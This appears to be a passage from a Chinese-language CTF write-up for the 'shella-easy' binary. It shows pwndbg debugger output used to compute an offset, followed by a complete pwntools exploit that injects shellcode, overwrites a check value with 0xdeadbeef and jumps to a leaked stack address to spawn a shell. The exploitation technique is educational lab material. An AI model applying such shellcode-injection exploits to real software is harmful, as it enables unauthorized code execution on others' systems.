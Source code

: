 ```plaintext
02:0008│     0xff8d7254 —▸ 0xff8d7304 —▸ 0xff8d87c6 ◂— './shella-easy'
03:000c│     0xff8d7258 —▸ 0xff8d730c —▸ 0xff8d87d4 ◂— 'MOTD_SHOWN=pam'
04:0010│     0xff8d725c —▸ 0xff8d7270 —▸ 0xf6711e2c ◂— 0x22ed4c
05:0014│     0xff8d7260 —▸ 0xf6711e2c ◂— 0x22ed4c
06:0018│     0xff8d7264 —▸ 0x80484db (main) ◂— push ebp
07:001c│     0xff8d7268 ◂— 0x1
──────────────────────────────────[ BACKTRACE ]───────────────────────────────────
 ► 0 0x804855a main+127
   1 0xf6503bd7
   2 0xf6503c9d __libc_start_main+141
   3 0x8048401 _start+33
──────────────────────────────────────────────────────────────────────────────────
pwndbg> i frame
Stack level 0, frame at 0xff8d7250:
 eip = 0x804855a in main; saved eip = 0xf6503bd7
 called by frame at 0xff8d72b0
 Arglist at unknown address.
 Locals at unknown address, Previous frame's sp is 0xff8d7250
 Saved registers:
  eip at 0xff8d724c
pwndbg> hex(0xff8d724c-0xff8d7240)
+0000 0x00000c
```

由此可知，`0xc` 是我们 `ret` 和 `0xdeadbeef` 之间的距离，因为是 i386，所以我们减四就是偏移量了。

## Exploit

```python
#!/usr/bin/python3

from pwn import *

context(os='linux', arch='i386', log_level='debug', terminal='kitty')

target = process('./shella-easy')

recvline    = lambda : target.recvline()
recvuntil   = lambda str : target.recvuntil(str)
sendline    = lambda str : target.sendline(str)
interactive = lambda : target.interactive()

recvuntil(b'a ')

leak_addr = p32(int(recvuntil(b' ').strip(b' '), 16))

shellcode = asm(shellcraft.sh())
payload = shellcode + b'A' * (64 - len(shellcode)) + p32(0xdeadbeef) + b'B' * 0x8 + leak_addr

sendline(payload)
interactive()
```
